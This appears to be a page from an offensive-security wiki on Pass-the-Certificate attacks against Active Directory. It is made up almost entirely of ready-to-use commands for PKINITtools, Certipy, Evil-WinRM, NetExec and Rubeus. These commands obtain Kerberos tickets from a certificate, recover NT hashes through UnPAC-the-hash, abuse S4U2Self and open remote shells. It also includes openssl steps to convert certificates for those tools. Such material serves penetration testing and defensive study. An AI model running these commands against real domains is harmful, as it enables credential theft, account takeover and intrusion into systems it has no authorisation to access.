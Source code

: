 #### PKINITtools

From UNIX-like systems, [Dirk-jan](https://twitter.com/_dirkjan)'s [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/) tool to request a TGT (Ticket Granting Ticket) for the target object. That tool supports the use of the certificate in multiple forms.

```python
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

The ticket obtained can then be used to

- authenticate with pass-the-cache
- conduct an UnPAC-the-hash attack. This can be done with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/).
- obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from PKINITtools.

#### Certipy

When using Certipy for Pass-the-Certificate, it automatically does UnPAC-the-hash to recover the account's NT hash, in addition to saving the obtained TGT.

```shell
certipy auth -pfx <PATH_TO_PFX_CERT> -dc-ip <DC_IP> -username <user> -domain <DOMAIN_FQDN>
```

{% hint style="info" %} Notes that Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file.

```shell
certipy cert -export -pfx <PATH_TO_PFX_CERT> -password <CERT_PASSWORD> -out <unprotected.pfx>
```
#### Evil-WinRm

Evil-WinRM uses the WinRM protocol based on Windows Management Instrumentation (WMI)  to give us an interactive shell on a Windows host. Winrm Supports PKINIT, so we can authenticate with a certificate.

```shell
evil-winrm -i <TARGET_IP> -c <PATH_TO_PEM_CERT> -k <PATH_TO_PEM_KEY> -S -r <DOMAIN_REALM>
```

Evil WinRM doesn't directly support PFX files and need a PEM certificate and private key. The following commands can be used to convert a PFX file in PEM formats

```shell
# Exctract PEM certificate
openssl pkcs12 -in <PATH_TO_PFX_CERT> -clcerts -nokeys -out <PATH_TO_NEW_PEM_CERT>
# Extrcat PEM key
openssl pkcs12 -in <PATH_TO_PFX_CERT> -nocerts -out <ENC_PEM_KEY>
openssl rsa -in <ENC_PEM_KEY> -out <FINAL_PEM_KEY>
```

#### NetExec

You can also use [Netexec](https://github.com/Pennyw0rth/NetExec) to perform Pass-the-Certificate authentication:

```shell
netexec <proto> <ip> --cert-pfx "PATH_TO_PFX_CERT" -u user 
netexec <proto> <ip> --cert-pfx "PATH_TO_PFX_CERT" --pfx-pass "CERT_PASSWORD" -u user 
netexec <proto> <ip> --pfx-base64 "PATH_TO_PFX_CERT" -u user 
netexec <proto> <ip> --cert-pem "PATH_TO_CRT" --key-pem "PATH_TO_KEY" -u user
```
 
  From Windows systems, Rubeus (C#) can be used to request a TGT (Ticket Granting Ticket) for the target object from a base64-encoded PFX certificate export (with an optional password).

```shell
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.

```shell
openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
```

Certipy uses DER encryption. To generate a PFX for Rubeus, openssl can be used.

```shell
openssl rsa -inform DER -in key.key -out key-pem.key
openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
```
